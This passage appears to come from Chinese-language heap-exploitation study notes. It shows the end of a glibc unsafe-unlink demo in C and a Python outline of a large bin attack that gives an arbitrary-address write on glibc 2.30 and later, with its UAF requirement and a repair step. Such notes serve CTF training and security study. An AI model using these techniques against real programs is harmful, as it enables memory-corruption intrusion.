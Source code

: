 ```c
	printf("You can find the source of the unlink macro at https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=ef04360b918bceca424482c6db03cc5ec90c3e00;hb=07c18a008c2ed8f5660adba2b778671db159a141#l1344\n\n");
	free(chunk1_ptr);

	printf("At this point we can use chunk0_ptr to overwrite itself to point to an arbitrary location.\n");
	char victim_string[8];
	strcpy(victim_string,"Hello!~");
	chunk0_ptr[3] = (uint64_t) victim_string;

	printf("chunk0_ptr is now pointing where we want, we use it to overwrite our victim string.\n");
	printf("Original value: %s\n",victim_string);
	chunk0_ptr[0] = 0x4141414142424242LL;
	printf("New Value: %s\n",victim_string);

	// sanity check
	assert(*(long *)victim_string == 0x4141414142424242L);
}
```



**核心思路:**
```python
malloc(0x420) # chunk A
malloc(0x18)
#And another chunk to prevent consolidate
malloc(0x410) # chunk B
#This chunk should be smaller than [p1] and belong to the same large bin
malloc(0x18)
#And another chunk to prevent consolidate
free(0)
malloc(0x438)
#Allocate a chunk larger than [p1] to insert [p1] into large bin
free(1)
#Free the smaller of the two --> [p2]
edit(0, p64(0)*3+p64(target2-0x20))
#最终addr1与addr2地址中的值均被赋成了victim即chunk_B的chunk header地址最终addr1与addr2地址中的值均被赋成了victim即chunk_B的chunk header地址
malloc(0x438)
edit(0, p64(recover)*2) # 修复large bin attack 
```

**修复:**
可以通过gdb查看未更改时chunk A的fd和bk，然后修复，免于计算 

**限制:**
- 需要一次UAF 

**效果:**
- 在2.30以上可以在任意地址写入一个libc地址
